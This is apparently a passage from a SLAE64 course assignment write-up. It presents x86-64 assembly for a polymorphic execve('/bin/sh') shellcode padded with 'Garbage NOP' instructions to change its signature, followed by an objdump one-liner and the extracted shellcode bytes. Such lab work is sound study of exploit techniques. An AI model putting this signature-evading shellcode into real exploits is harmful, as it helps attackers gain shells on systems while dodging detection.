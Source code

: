 ###### Final code:

```term
global _start

_start:

            cmc                              ; Garbage NOP
            cdq                              ; Garbage NOP

            mov     qword rbx, '//bin/sh'
            shr     rbx, 0x8
            xor rsi, rsi                     ; Garbage NOP
            clc                              ; Garbage NOP
            push    rbx
            mov     rdi, rsp

            dec rbp                          ; Garbage NOP

            push    rax
            mul rbp                          ; Garbage NOP
            push    rdi

            lea r10, [rsi - 62]              ; Garbage NOP

            mov     rsi, rsp

            mul r12                          ; Garbage NOP

            lea r9, [rbp + 9]                ; Garbage NOP

            mov cl, 27                       ; Garbage NOP

            push word 0x20                   ; Pushes 0x20 into the stack.
            pop bx                           ; Pops this value into BX.

            mov al, bl                       ; The value in BL is copied into AL.
            add al, 0x1b                     ; As the value of AL is now 0x20, adding 0x1B will set its value to 0x3B, which is the execve syscall value.

            syscall
```

Let's dump the shellcode and test it!

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_6/1_shellcode$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d ./1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo 
\xf5\x99\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x48\x31\xf6\xf8\x53\x48\x89\xe7\x48\xff\xcd\x50\x48\xf7\xe5\x57\x4c\x8d\x56\xc2\x48\x89\xe6\x49\xf7\xe4\x4c\x8d\x4d\x09\xb1\x1b\x66\x6a\x20\x66\x5b\x88\xd8\x04\x1b\x0f\x05
```
